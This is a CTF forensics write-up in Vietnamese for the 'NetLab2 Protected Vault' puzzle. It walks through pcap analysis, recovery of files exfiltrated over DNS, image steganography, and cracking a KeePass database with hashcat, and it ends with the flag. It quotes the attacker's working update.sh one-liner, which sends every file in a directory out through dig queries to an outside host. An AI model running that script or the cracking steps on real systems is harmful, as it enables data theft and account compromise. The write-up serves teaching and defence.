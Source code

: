 https://ctf.viblo.asia/puzzles/netlab2-protected-vault-hf0wmhwguj0

Bài này rất hay, tôi đã phải dùng nhiều các kĩ thuật khác nhau để tìm ra flag chứ không đơn thuần là chỉ từ file pcap là ra hết

Tôi sẽ chia làm 4 giai đoạn cho dễ hiểu

# Giai đoạn 1: Phân tích pcap
Từ file pcap mà bài cho, ta export được file `update.sh` 

```sh
for f in $(ls .); do s=4;b=50;c=0; for r in $(for i in $(gzip -c $f| base64 -w0 | sed "s/.\{$b\}/&\n/g");do if [[ "$c" -lt "$s"  ]]; then echo -ne "$i-."; c=$(($c+1)); else echo -ne "\n$i-."; c=1; fi; done ); do dig +tries=1 +timeout=1 +noidnin +noidnout @10.2.32.72 `echo -ne $r$(echo $f|base58)|tr "+" "}"|tr "/" "{"` +short; done ; done
```

Cái script trên thực hiện exfiltrate dữ liệu qua DNS queries – một kỹ thuật phổ biến trong data exfiltration / DNS tunneling. Nói chung là `update.sh` sẽ:

- `for f in $(ls .); do` Lặp qua từng file trong thư mục hiện tại

- `s=4; b=50; c=0;` Thiết lập `s=4`: Số block DNS query trước khi xuống dòng; `b=50`:Độ dài chuỗi mỗi phần và `c=0`: Biến đếm

- `for r in $(for i in $(gzip -c $f | base64 -w0 | sed "s/.\{$b\}/&\n/g"); do` Nén file bằng gzip, sau đó mã hóa base64 không xuống dòng (-w0), rồi chia nhỏ chuỗi base64 thành các đoạn dài 50 ký tự

```sh
  if [[ "$c" -lt "$s" ]]; then
        echo -ne "$i-."
        c=$(($c+1))
      else
        echo -ne "\n$i-."
        c=1
      fi
    done
  );
```
- Gom 4 block (mỗi block dài 50 ký tự, ngăn cách bằng `-`) trên 1 dòng, sau đó xuống dòng (có thể để xử lý từng query DNS riêng)

- `dig +tries=1 +timeout=1 +noidnin +noidnout @10.2.32.72 `echo -ne $r$(echo $f|base58) | tr "+" "}" | tr "/" "{"` +short;` Và cuối cùng với mỗi đoạn sẽ append thêm tên file đã được mã hóa base58 vào chuỗi dữ liệu; thay thế ký tự đặc biệt trong base64 (`+`,`/`) thành ký tự DNS-safe (`}`, `{`); sau đó dùng dig gửi DNS query tới server DNS cụ thể: `10.2.32.72`

## Kết quả: dữ liệu file được mã hóa + nén + chia nhỏ và gửi đi qua DNS query tới server đích — đây là DNS data exfiltration

Và trong wireshark ta cũng có thể thấy rõ rất nhiều các DNS query kì lạ gửi đến IP `10.2.32.72` đây cũng chính là IP của hacker

# Giai đoạn 2: Khôi phục file

Dùng tshark để lấy tất cả các data base64 `tshark -r netlab2.pcap -Y "dns && ip.dst == 10.2.32.72" -T fields -e dns.qry.name > susdnsquery.txt`

Tất nhiên sau khi có `susdnsquery.txt` vẫn chưa thể khôi phục lại file được vì hacker đã thực hiện nhiều sự thay đổi từ data base64 (đọc lại phần phân tích `update.sh` trong giai đoạn 1) lúc đầu nên ta phải khôi phục chúng về base64 ban đầu

Tôi đã tạo một script để làm những điều trên (bằng AI hehe), 2 phần quan trọng trong script là

```py
pattern = r'([A-Za-z0-9+/={}\[\]]+)-\.'
```

Dùng regex để tìm các chuỗi đứng trước `-.`

```py
processed = chunk.replace("{", "/").replace("}", "+")
```

Đổi các ký tự `{` và `}` thành `/` `+`

Chạy `recoverbase64.py` sẽ cho ta `base64Goc.txt`, sau đó có thể khôi phục lại file gzip

```sh
$ python recoverbase64.py
Starting extraction process...
Found 1857 matching chunks
Combined base64 length: 92696
Base64 data saved to 'base64Goc.txt'

# Thành công

$ base64 -d  base64Goc.txt > org.gz

$ gunzip org.gz

$ file org.gz
org.gz: gzip compressed data, was "blueteam.bmp", last modified: Fri Apr  8 06:35:19 2022, from Unix, original size modulo 2^32 339

# Chứa 1 file blueteam.bmp được nén

$ gunzip org.gz

$ file org
org: JPEG image data, JFIF standard 1.01, aspect ratio, density 1x1, segment length 16, progressive, precision 8, 400x400, components 3
```

Giải nén cho ta file org (blueteam.bmp) là 1 file jpg, có thể chuyển về đúng định dạng để xem (blueteam.jpg), nhưng bức ảnh không quan trọng lắm

# Giai đoạn 3: Steganography

Gặp dạng này tôi thường đưa lên https://www.aperisolve.com/ (Web này sẽ chạy các tool steg phổ biến như zsteg, binwalk, stegsolve, steghide,...) có thể tự tải về máy để chạy

File `blueteam.jpg` khi được đưa vào binwalk hiện ra thêm 2 file ảnh ở trong nữa

```
$ binwalk blueteam.jpg

DECIMAL       HEXADECIMAL     DESCRIPTION
--------------------------------------------------------------------------------
0             0x0             JPEG image data, JFIF standard 1.01
28358         0x6EC6          PNG image, 256 x 256, 8-bit colormap, non-interlaced
40712         0x9F08          JPEG image data, JFIF standard 1.01
```

Bình thường có thể dùng `binwalk -e` để đưa các phần này ra nhưng ở đây không được, vậy ta có thể dùng các lệnh khác như `dd` hoặc `foremost`

```
$ dd if=blueteam.jpg of=hidden.png bs=1 skip=28358 count=$((40712 - 28358))
12354+0 records in
12354+0 records out
12354 bytes (12 kB, 12 KiB) copied, 5.70105 s, 2.2 kB/s

$ dd if=blueteam.jpg of=hidden2.jpg bs=1 skip=40712
37892+0 records in
37892+0 records out
37892 bytes (38 kB, 37 KiB) copied, 16.2848 s, 2.3 kB/s
```

Lại có 2 file ảnh thì quy trình tương tự như làm với `blueteam.jpg`

Sau một lúc thì đã tìm được thêm một file qua `zsteg` trong ảnh `hidden.png`

```sh
$ zsteg lsb hidden.png
[.] lsb
[!] #<Errno::ENOENT: No such file or directory @ rb_sysopen - lsb>

[.] hidden.png
[?] 11010 bytes of extra data after image end (IEND), offset = 0x540
extradata:0         .. file: Keepass password database 2.x KDBX
    00000000: 03 d9 a2 9a 67 fb 4b b5  01 00 03 00 02 10 00 31  |....g.K........1|
    00000010: c1 f2 e6 bf 71 43 50 be  58 05 21 6a fc 5a ff 03  |....qCP.X.!j.Z..|
    00000020: 04 00 01 00 00 00 04 20  00 54 b6 74 14 2f 9a 18  |....... .T.t./..|
    00000030: aa ed 00 cf 79 a0 bf c3  2b a3 7b 84 3b 48 12 3f  |....y...+.{.;H.?|
    00000040: 45 3a 83 c2 c8 1c a4 4f  fe 05 20 00 24 df b9 b3  |E:.....O.. .$...|
    00000050: 6f 51 c4 96 db 79 24 87  fa 23 68 07 8a 41 f5 1f  |oQ...y$..#h..A..|
    00000060: 0b 84 ff e5 7e 42 7e 6e  fe 6d 98 7f 06 08 00 60  |....~B~n.m.....`|
    00000070: ea 00 00 00 00 00 00 07  10 00 b9 77 23 51 ef b5  |...........w#Q..|
    00000080: 50 cb 41 d4 d4 1c 0a e6  02 2c 08 20 00 7b 20 0a  |P.A......,. .{ .|
    00000090: 14 3b 10 b8 79 36 a4 a9  99 ea 86 35 24 f9 43 7b  |.;..y6.....5$.C{|
    000000a0: e2 66 0c 5a 29 3b d2 fa  b2 75 c0 53 7e 09 20 00  |.f.Z);...u.S~. .|
    000000b0: 09 04 ea 8a 12 80 8b 2a  8e 15 38 5b 68 91 f9 7e  |.......*..8[h..~|
    000000c0: 92 bf 35 24 1f 1e 21 59  8d ec 77 ef 1e ae 83 47  |..5$..!Y..w....G|
    000000d0: 0a 04 00 02 00 00 00 00  04 00 0d 0a 0d 0a 1c 22  |..............."|
    000000e0: d2 dc 12 19 64 a9 c2 f8  98 91 ee a0 67 39 c6 66  |....d.......g9.f|
    000000f0: 31 f0 83 b0 90 45 98 9e  a6 bd e8 5f 3f 8a ec 32  |1....E....._?..2|
imagedata           .. text: ["\t" repeated 9 times]
b3,rgb,msb,xy       .. file: OpenPGP Public Key
b4,rgb,msb,xy       .. text: "eUVeUVeUVeUVeUVeUVeUVeUVeUVeUVeUVeUVeUVeUVeUVeUVeUVeUVeUVeUVeUVeUVeUVeUVeUVeUVeUVeUVeUVeUVeUVeUVeUVeUVeUVeUVeUVeUVeUVeUVeUVeUVeUVeUVeUVeUVeUVeUVeUVeUVeUVeUVeUVeUVeUVeUVeUVeUVeUVeUVeUVeUVeUVeUVeUVeUVeUVeUVeUVeUVeUVeUVeUVeUVeUVeUVeUVeUVeUVeUVeUVeUVeUVeUVeUVe"
```

`lsb` để check phần least significant bit của ảnh ra một file `Keepass password database 2.x KDBX`

`dd if=hidden.png of=extracted.kdbx bs=1 skip=$((0x540))` Để lấy file

Để mở một file `.kdbx` có thể dùng phần mềm `KeePass Password Safe 2`

Ở đây bắt ta nhập mật khẩu nên sẽ phải crack

# Giai đoạn 4: Crack mật khẩu Keepass

Dùng `keepass2john extracted.kdbx > keepass_hash.txt` để lấy hash, nội dung file sẽ bắt đầu như `extracted:$keepass....`

Sau đó có thể dùng `john` hoặc `hashcat` với wordlist `rockyou.txt` để crack

Nếu dùng hashcat thì nên dùng mode `-m 13400` cho keepass 2 để tăng tốc độ, lúc này sẽ phải chỉnh lại `keepass_hash.txt` bằng cách xoá `extracted` 

Tham khảo trang web để biết format các loại hash https://hashcat.net/wiki/doku.php?id=example_hashes

```
$ hashcat -m 13400 keepass_hash.txt ../rockyou.txt

$keepass$*2*60000*0*54b674142f9a18aaed00cf79a0bfc32ba37b843b48123f453a83c2c81ca44ffe*24dfb9b36f51c496db792487fa2368078a41f51f0b84ffe57e427e6efe6d987f*b9772351efb550cb41d4d41c0ae6022c*0904ea8a12808b2a8e15385b6891f97e92bf35241f1e21598dec77ef1eae8347*1c22d2dc121964a9c2f89891eea06739c66631f083b09045989ea6bde85f3f8a:iloveyou
```

Vậy mật khẩu của file là `iloveyou`

Vào file đó, nhập mật khẩu và lấy flag thôi (Trong database sẽ có file title `Flag` có username `NetLab2`, flag chính là mật khẩu của user đó)

# Flag 

`Flag{NetLab2_DNS_3xf1ltr4t10n_15_5t3al7hy}`